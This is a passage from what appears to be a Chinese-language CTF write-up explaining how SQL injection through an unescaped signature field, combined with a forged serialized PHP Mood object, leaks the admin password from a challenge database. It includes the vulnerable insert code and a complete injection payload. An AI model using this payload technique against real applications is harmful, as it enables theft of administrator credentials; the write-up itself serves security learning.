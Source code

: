 ```php
  @$ret = $db->insert(array('userid','username','signature','mood'),'ctf_user_signature',array($this->userid,$this->username,$_POST['signature'],$mood));
```

### 0x2 通过注入拿到管理员密码

**开始是这样想的**

写注入payload的部分是在 `$mood`中,这是一个序列化后的`Mood`类,好像没法直接出数据，用盲注又太麻烦，但是因为mysql的insert可以一次插入多条数据：

```sql
insert into table (`username`,`password`) values ('user1','pass1'),('user2','pass2')
```

所以这里可以通过`$_POST['signature']`一直往后覆盖，把输出点放到下一条数据的的`$_POST['signature']`字段，但是问题来了，我不知道自己的`userid`,插入进去也看不到啊。。（因为我没发现竟然可以包含session，包含session之后就看到`userid`了，这是一种思路).下面是我当时的做法。

**我的做法**

我看了看代码之后，发现其实 `Mood`本身就有输出点的，在`views/index`页面:

```Php
echo htmlentities($data['data'][$i]['sig'])."<br><br>";
$mood = (int)$data['data'][$i]['mood']['mood'];
echo "<img src='img/$mood.gif'><br><br>";
echo "published ".$data['data'][$i]['subtime']."<br>";
```

`Mood`类的`mood`参数被直接输出到页面中了,但是需要注意的是进行了一个int类型的转换,如果可以伪造`Mood`类的`mood`属性就可以了。

```php
$mode = new Mood((int)"1","114.114.114.114");
$mode->data = "0";  // 把data设置为0，可以直观的从页面的publish time中看到注入的数据是否被成功反序列化
echo serialize($mode);
//O:4:"Mood":4:{s:4:"mood";i:1;s:2:"ip";s:15:"114.114.114.114";s:4:"date";i:1520912184;s:4:"data";s:1:"0";}
```

现在来解决整型的问题，因为在php中,最大的整型是8个字节，所以有32个字节的数据，分四次读出，每次8个字节，转化为10进制。

```php
php > echo dechex(PHP_INT_MAX);
7fffffffffffffff
```

最后注入的payload为：

```
signature=username`,concat(`O:4:"Mood":3:{s:4:"mood";i:`,(select conv(hex((select mid((select password from ctf_users where is_admin=1 ),1,8))),16,10)),`;s:2:"ip";s:15:"114.114.114.114";s:4:"date";s:1:"0";}`))#&mood=0
```

![http://pic.wonderkun.cc/uploads/2018/03/1.png](http://pic.wonderkun.cc/uploads/2018/03/1.png)

然后访问首页就可以看到有这样的一个请求：

![http://pic.wonderkun.cc/uploads/2018/03/2.png](http://pic.wonderkun.cc/uploads/2018/03/2.png)

